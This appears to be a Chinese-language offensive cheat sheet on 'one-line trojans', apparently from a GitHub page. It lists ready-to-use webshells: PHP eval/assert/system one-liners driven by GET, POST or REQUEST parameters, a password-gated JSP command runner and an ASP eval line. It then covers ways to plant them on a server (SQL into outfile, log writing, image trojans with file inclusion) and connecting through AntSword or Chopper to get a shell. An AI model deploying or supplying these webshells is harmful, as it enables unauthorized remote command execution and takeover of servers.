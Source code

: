 ## **0x01. 一句话木马**
PHP一句话木马
可以在目标服务器上执行PHP代码,并和客户端(如菜刀、Cknife、冰蝎、蚁剑）配合getshell，俗称小马
^
php如果没有禁用一些函数
eval(x)      5<php<7.2默认开启
assert(x)   php<7.0默认开启
```
上传.php文件：
<?php eval('system(whoami);'); ?>
<?php eval($_GET[1]); ?>


PHP5.x版本中可以使用
<script language="php">@eval($_POST["pass"])</script>

php5-7
<?php @eval($_POST['attack']);?>
<?php @eval($_POST['1']);?>
@错误不报
php5
<?php assert($_GET['1']); ?>


<?php 
error_reporting(0);//不报错
highlight_file(__FILE__);
var_dump($_REQUEST['1']);
eval($_REQUEST['1']);
 ?>
访问?1=system('ls /');

<?php echo phpinfo(); ?>
<?php system($_GET['2']);?>
```
```
jsp:
<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>

传x和i
<% if("x".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
} %>


一行
<% if("x".equals(request.getParameter("pwd"))){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");} %>


asp:
<%eval request("cmd") %>
```
aspx：<https://www.cnblogs.com/donglian1/p/13942742.html>
其他常见一句话木马：<https://www.cnblogs.com/ash-33/p/16397536.html>


^
## **0x02. 木马注入方式**

### **1**. 以文件的形式上传到服务器端
上传文件可以利用MySQL的into outfile、表单文件上传等方式上传

### **2**. 以字符串的形式上传到服务器端
通过MySQL的日志方式、shell的echo方式、命令执行、反序列化等方式写入一句话代码，可写入新文件或者已存在的页面

### **3**.图片马+文件包含漏洞
通过上传图片马，结合文件包含漏洞上传webshell;


^
## **0x03. getshell**
上传一句话木马后，找到文件上传的地址

1. 中国蚁剑
设置的入口为eval($_POST["密码"];);，必须为eval的post。
使用中国蚁剑，右击加链接，连接密码(POST参数名)
getshell
双击进行文件管理
右击可选择终端界面
蚁剑可配置代理查看每次请求包
^
2. 中国菜刀
设置的入口为assert($_GET),assert($_POST)。